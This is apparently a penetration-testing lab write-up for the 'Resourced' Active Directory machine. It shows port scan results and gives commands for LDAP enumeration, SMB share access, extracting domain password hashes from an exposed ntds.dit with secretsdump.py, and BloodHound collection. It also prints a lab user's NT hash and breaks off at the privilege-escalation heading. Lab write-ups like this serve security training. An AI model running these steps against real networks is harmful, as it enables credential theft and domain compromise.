

repository: gmrvh/blog · page: pg/resourced/index.html · generator: mkdocs

# Resourced - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed the following open ports:
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-18 17:16:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp+ open  msrpc         Microsoft Windows RPC
```

### Domain Information
From the scan results, I identified:
- Domain name: resourced.local
- NetBIOS Computer Name: RESOURCEDC
- DNS Computer Name: ResourceDC.resourced.local
- DNS Domain Name: resourced.local
- Product Version: 10.0.17763

## Gaining Initial Access

### LDAP Enumeration
I enumerated LDAP to discover more about the domain structure:
```bash
venv/bin/python3 windapsearch.py --dc-ip 192.168.145.175 --da --admin-objects --user-spns --gpos --full -PU -U
```

This query revealed credentials for user `V.Ventz`, providing initial access to the domain resources.

### SMB Enumeration
With these credentials, I was able to list and access SMB shares:
```bash
smbclient -L //192.168.145.175 -U V.Ventz
```

I discovered a "Password Audit" share containing critical files:
- ntds.dit (Active Directory database)
- SECURITY (Registry hive)
- SYSTEM (Registry hive)

## Lateral Movement

### Extracting Domain Hashes
I downloaded these files from the SMB share and used secretsdump.py to extract password hashes:
```bash
secretsdump.py LOCAL -ntds ntds.dit -system SYSTEM -security SECURITY -outputfile credentials.txt
```

After testing the extracted hashes, I identified two valid credentials:
- **Username**: V.Ventz
- **Hash**: [Hash value redacted]

- **Username**: L.Livingstone
- **Hash**: 19a3a7550ce8c505c2d46b5e39d6f808

### Privilege Enumeration
I used BloodHound to analyze the domain relationships and identify potential attack paths:
```bash
bloodhound-python -c All -u V.Ventz -p [password] -d resourced.local -dc ResourceDC.resourced.local
```

Analysis of the data revealed that user `L.Livingstone` had `GenericAll` permissions, which could be leveraged for privilege escalation.

## Privilege Escalation
